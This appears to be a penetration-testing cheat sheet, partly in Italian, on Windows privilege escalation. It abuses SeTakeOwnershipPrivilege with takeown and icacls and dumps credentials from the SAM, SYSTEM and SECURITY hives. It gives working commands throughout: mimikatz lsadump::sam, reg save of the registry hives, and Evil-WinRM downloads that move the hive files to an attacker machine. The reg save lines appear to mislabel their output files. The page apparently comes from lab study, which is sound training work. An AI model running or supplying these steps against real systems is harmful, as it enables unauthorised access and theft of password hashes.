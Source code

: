 [SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default.

Download script from [here](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell
# per abilitare il privilegio
Import-Module .\Enable-Privilege.ps1
.\Enable-Privilege.ps1

# check
whoami /priv

# bisogna poi scegliere un file target e prenderne possesso
takeown /f 'C:\Path_To_File\file.txt'

# se non si ha il permesso di leggere il file, bisogna modificare l'ACL tramite icacls
icacls 'C:\Path_To_File\file.txt' /grant htb-student:F
```

# Others

## SAM, SYSTEM, Security Files

```bash
upload mimikatz64.exe

./mimikatz64.exe "lsadump::sam /system:C:\windows.old\windows\system32\SYSTEM /sam:C:\windows.old\windows\system32\SAM" exit 
```

```bash
whoami /all #BUILTIN\Administrators
```

If you are a local administrator, you can drill into the contents of the SAM database to find the administrator's (or other users') password.

```cmd-session
reg save HKLM\SYSTEM SAM
reg save HKLM\SECURITY SYSTEM
reg save HKLM\SAM SECURITY
```

Una volta ricavato viene portato sulla kali in qualche modo (ad esempio qui tramite evil-winrm):

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SYSTEM
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SECURITY
```
